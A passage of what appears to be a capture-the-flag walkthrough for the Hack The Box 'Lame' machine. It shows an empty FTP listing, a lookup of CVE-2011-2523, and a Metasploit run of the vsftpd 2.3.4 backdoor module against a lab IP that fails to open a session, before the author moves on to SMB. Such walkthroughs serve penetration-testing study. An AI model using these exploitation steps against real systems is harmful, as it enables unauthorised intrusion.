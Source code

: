 ```
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 .
drwxr-xr-x    2 0        65534        4096 Mar 17  2010 ..
226 Directory send OK.
ftp> 
```
### It worked but FTP is empty.

## As the FTP version is given let search for any weakness.
### So here is the ```CVE-2011-2523``` On VSFTPd version 2.3.4 we can exploit it using metasploit-framework.
```
hack@box:~Lame$ msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > search VSFTPd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > 
```
### Let give it a try:
```
msf6 > search VSFTPd 2.3.4

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use 0
[*] Using configured payload cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
### The exploit didn't work , we need to find another way.
## As the smb service version is given let search for weakness.
